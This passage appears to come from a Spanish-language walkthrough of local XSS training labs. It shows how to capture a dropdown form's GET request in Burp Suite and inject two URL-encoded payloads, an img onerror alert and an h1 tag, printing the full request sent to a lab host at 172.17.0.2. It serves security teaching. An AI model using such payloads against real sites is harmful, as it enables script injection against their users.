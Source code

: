 <figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Por lo que habremos terminado este laboratorio.

## LAB 3 (XSS con dropdowns)

Entrando dentro de dicho laboratorio veremos unas cuantas listas para poder elegir opciones, vamos abrir `BuprSuite` y dentro de la peticion que vamos a capturar cuando le demos a `enviar`, veremos la peticion, pero vamos a inyectar 2 `payloads` de `XSS` pero codificados en `URLCode` ya que va por `GET` mediante la `URL` y no por `POST`, por lo que tendra que quedar algo asi:

```
GET /laboratorio3/?opcion1=%3Cimg%20src%3D%22x%22%20onerror%3D%22alert%28%27XSS%20Stored%21%27%29%22%3E&opcion2=ValorY&opcion3=%3Ch1%3EXSS%3C%2Fh1%3E HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://172.17.0.2/laboratorio3/?opcion1=ValorB&opcion2=ValorX&opcion3=Opcion2
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```
